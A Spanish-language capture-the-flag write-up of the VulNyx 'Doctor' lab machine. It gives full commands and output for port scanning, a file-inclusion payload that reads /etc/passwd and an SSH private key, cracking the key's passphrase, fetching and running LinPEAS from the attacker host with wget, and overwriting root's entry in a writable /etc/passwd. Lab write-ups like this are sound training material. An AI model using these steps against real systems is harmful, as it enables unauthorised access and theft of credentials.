




# WriteUp: Doctor | VulNyx

En el presente artículo, documentaré detalladamente el proceso técnico que seguí para comprometer una máquina objetivo, desde la fase inicial de reconocimiento hasta la obtención de privilegios de superusuario (`root`). El objetivo de este análisis es educativo, buscando desglosar cada paso de manera formal y precisa.

### <mark style="color:yellow;">Fase 1: Reconocimiento y Escaneo de Puertos</mark>

Mi primer paso en cualquier evaluación de seguridad es realizar un reconocimiento exhaustivo de la superficie de ataque. Para esta tarea, mi herramienta de elección es **Nmap (Network Mapper)**, un estándar de la industria para el descubrimiento de redes y la auditoría de seguridad.

Inicialmente, mi objetivo era identificar todos los puertos TCP abiertos en el host `192.168.56.26`. Para ello, ejecuté un escaneo rápido con el siguiente comando:

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.26
```

Permíteme desglosar los parámetros utilizados:

* `-n`: Desactiva la resolución de nombres DNS, lo que acelera el escaneo al no intentar resolver la IP a un nombre de host.
* `-Pn`: Omite la fase de descubrimiento de host (ping scan). Asumo que el objetivo está activo y procedo directamente al escaneo de puertos, lo cual es útil para evadir firewalls que bloquean pings.
* `-sS`: Realiza un escaneo TCP SYN (también conocido como "half-open" o sigiloso), que es rápido y menos propenso a ser registrado por los sistemas objetivo.
* `-p-`: Indica a Nmap que escanee los 65,535 puertos TCP posibles, asegurando que no se omita ningún servicio que se ejecute en un puerto no estándar.
* `--min-rate 5000`: Establece una tasa mínima de envío de paquetes para acelerar significativamente el proceso de escaneo.

Los resultados de este escaneo inicial fueron los siguientes:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Este hallazgo inicial me proporcionó dos vectores de ataque potenciales: un servicio SSH en el puerto 22 y un servidor web en el puerto 80.

Para profundizar mi análisis, procedí con un segundo escaneo, esta vez enfocado en los puertos descubiertos para identificar las versiones de los servicios y ejecutar scripts de enumeración básicos.

```bash
nmap -sVC -p22,80 192.168.56.26
```

Aquí, los parámetros clave fueron:

* `-sV`: Realiza un sondeo de los puertos abiertos para determinar la información de la versión del servicio.
* `-sC`: Ejecuta los scripts por defecto del Nmap Scripting Engine (NSE) para recopilar información adicional y verificar vulnerabilidades conocidas.
* `-p22,80`: Enfoca el escaneo únicamente en los puertos de interés previamente identificados.

Este escaneo me proporcionó información mucho más detallada:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Docmed
```

A partir de estos resultados, confirmé que el servidor SSH es una versión de OpenSSH para Debian 10 y el servidor web es Apache 2.4.38, también en Debian. El título de la página, "Docmed", me dio un nombre para la aplicación web, lo que me llevó a centrar mi atención inicial en el puerto 80.

### <mark style="color:yellow;">Fase 2: Enumeración del Servicio Web y Detección de Vulnerabilidades</mark>

Procedí a investigar el servicio web alojado en el puerto 80. Al navegar a `http://192.168.56.26`, me encontré con la siguiente interfaz:

<figure><figcaption></figcaption></figure>

Mi siguiente paso fue inspeccionar el código fuente de la página en busca de comentarios, rutas ocultas o cualquier pista que pudiera revelar la lógica subyacente de la aplicación. Fue entonces cuando descubrí una estructura de enlace interesante:

<figure><figcaption></figcaption></figure>

El enlace apuntaba a `doctor-item.php?include=Doctors.html`, un patrón que inmediatamente me alertó sobre una posible vulnerabilidad de **Inclusión Local de Archivos (LFI)**. Esta vulnerabilidad ocurre cuando una aplicación utiliza la entrada del usuario para incluir archivos en el servidor sin una validación adecuada.

### <mark style="color:yellow;">Fase 3: Explotación de LFI para la Obtención de Credenciales</mark>

Con una posible vulnerabilidad LFI identificada, mi hipótesis era que podría manipular el parámetro `include` para leer archivos sensibles del sistema operativo. Para verificar esto, intenté acceder al archivo `/etc/passwd`, un objetivo común para la validación de LFI, ya que es legible por todos los usuarios en sistemas tipo Unix.

Construí la siguiente URL: `http://192.168.56.26/doctor-item.php?include=/etc/passwd`. El intento fue exitoso:

<figure><figcaption></figcaption></figure>

El contenido del archivo `/etc/passwd` se renderizó en la página, proporcionándome una lista de los usuarios del sistema. A continuación, presento una tabla con los datos más relevantes que extraje:

| Usuario   | Contraseña | UID      | GID      | Comentario/Info | Directorio Home | Shell             |
| --------- | ---------- | -------- | -------- | --------------- | --------------- | ----------------- |
| **root**  | x          | **0**    | **0**    | root            | /root           | **/bin/bash**     |
| www-data  | x          | 33       | 33       | www-data        | /var/www        | /usr/sbin/nologin |
| **admin** | x          | **1000** | **1000** | admin           | /home/admin     | **/bin/bash**     |

Mi atención se centró en los usuarios `root` y `admin`, ya que ambos poseían un shell de inicio de sesión válido (`/bin/bash`), convirtiéndolos en objetivos primarios para obtener acceso.

Dado que el servicio SSH estaba abierto, mi siguiente objetivo fue buscar claves SSH privadas. Intenté leer la clave del usuario `root` usando la vulnerabilidad LFI:

```bash
http://192.168.56.26/doctor-item.php?include=../../../../../../home/root/.ssh/id_rsa
```

Como era de esperar, este intento no arrojó ningún resultado. Los permisos de los archivos en el directorio `.ssh` del usuario `root` están correctamente configurados para impedir el acceso de otros usuarios. Sin embargo, al intentar el mismo procedimiento para el usuario `admin`, cuyo UID es 1000, obtuve un resultado diferente:

<figure><figcaption></figcaption></figure>

Logré extraer con éxito el contenido de la clave SSH privada del usuario `admin`. Sin embargo, mi análisis del archivo reveló la línea `Proc-Type: 4,ENCRYPTED DEK-Info`. Esta cabecera confirma que la clave privada está cifrada con una frase de contraseña (passphrase), lo que significa que no podía utilizarla directamente.

### <mark style="color:yellow;">Fase 4: Ruptura de Credenciales y Acceso Inicial</mark>

Para obtener la frase de contraseña, recurrí a **John the Ripper**, una potente herramienta de auditoría de contraseñas. El proceso consistió en tres pasos:

1. **Guardar la clave:** Copié la clave `id_rsa` obtenida y la guardé en un archivo local llamado `credenciales`.
2. **Convertir la clave a un hash:** Utilicé la herramienta `ssh2john` para convertir la clave SSH a un formato de hash que John the Ripper pudiera procesar.
3. **Fuerza bruta:** Ejecuté John the Ripper contra el hash generado, utilizando el popular diccionario `rockyou.txt`.

```bash
# Convertir la clave a un hash para John
ssh2john credenciales > crede.txt

# Iniciar el proceso de cracking
john --wordlist=/usr/share/wordlists/rockyou.txt crede.txt
```

Tras un breve periodo, John the Ripper logró descifrar la frase de contraseña.

Con la clave privada y su correspondiente frase de contraseña en mi poder, procedí a establecer una conexión SSH. Primero, ajusté los permisos del archivo de la clave, ya que el cliente SSH requiere que estas sean de acceso restringido:

```bash
# Establecer permisos de solo lectura para el propietario
chmod 600 credenciales

# Conectarme al servidor vía SSH
ssh -i credenciales admin@192.168.56.26
```

El sistema me solicitó la frase de contraseña que había obtenido. Al introducirla, logré establecer una sesión en la máquina objetivo como el usuario `admin`.

```bash
Enter passphrase for key 'credenciales': 
admin@doctor:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

### <mark style="color:yellow;">Fase 5: Escalada de Privilegios</mark>

Una vez dentro del sistema, mi objetivo final era escalar privilegios para convertirme en el usuario `root`. Comencé realizando una serie de verificaciones manuales en busca de vectores de escalada comunes:

```bash
# Revisar permisos de sudo
sudo -l

# Buscar archivos con el bit SUID establecido
find / -perm -u=s -type f 2>/dev/null

# Inspeccionar tareas programadas
cat /etc/crontab

# Buscar contraseñas en texto plano en el directorio web
grep -r "password" /var/www/html 2>/dev/null
```

Estas comprobaciones iniciales no arrojaron resultados útiles. Para realizar una enumeración más profunda y eficiente, decidí utilizar **LinPEAS** (el cual viene instalado en Kali Linux), un script automatizado que busca exhaustivamente posibles vectores de escalada de privilegios en sistemas Linux.

Primero, levanté un servidor HTTP simple en mi máquina de atacante para transferir el script:

```bash
# En mi máquina Kali, navegué al directorio de LinPEAS
cd /usr/share/peass/linpeas

# Inicié un servidor web en el puerto 80
python3 -m http.server 80
```

Luego, desde la máquina víctima, navegué al directorio `/tmp`, que generalmente permite la escritura y ejecución de archivos, y descargué el script:

```bash
# Moverme a un directorio escribible
cd /tmp

# Descargar el script desde mi máquina
wget http://192.168.56.22/linpeas.sh

# Otorgar permisos de ejecución
chmod +x linpeas.sh

# Ejecutar el script
./linpeas.sh
```

Tras revisar la extensa salida de LinPEAS, un hallazgo crítico se destacó inmediatamente:

<figure><figcaption></figcaption></figure>

El script informó que el archivo `/etc/passwd` era escribible por mi usuario actual. Esta es una misoconfiguración de seguridad extremadamente grave. En sistemas Linux modernos, las contraseñas hasheadas se almacenan en `/etc/shadow`, que es legible solo por `root`. El archivo `/etc/passwd` contiene una `x` en el campo de la contraseña para indicar al sistema que la contraseña real se encuentra en `/etc/shadow`.

Dado que yo podía modificar `/etc/passwd`, mi estrategia fue reemplazar la `x` del usuario `root` con un hash de contraseña de mi elección. Esto haría que el sistema ignorara `/etc/shadow` para la autenticación de `root` y utilizara el hash que yo proporcioné.

Primero, generé un hash para la contraseña `123456` usando `openssl`.

```bash
openssl passwd -1 123456
```

La salida fue: `$1$gTqcQbju$b5huo6K8egw0UDboANeq/.`

A continuación, edité el archivo `/etc/passwd` con `nano` y modifiqué la línea correspondiente a `root`:

**Línea original:**

```bash
root:x:0:0:root:/root:/bin/bash
```

**Línea modificada:**

```bash
root:$1$gTqcQbju$b5huo6K8egw0UDboANeq/.:0:0:root:/root:/bin/bash
```

Una vez guardados los cambios, el último paso fue utilizar el comando `su` para cambiar al usuario `root`:

```bash
admin@doctor:/tmp$ su root
Contraseña: 
root@doctor:/tmp# id
uid=0(root) gid=0(root) grupos=0(root)
```

Al ingresar la contraseña `123456`, el sistema la validó contra el hash que inserté en `/etc/passwd`, concediéndome acceso como superusuario. Con esto, el compromiso de la máquina fue completado.
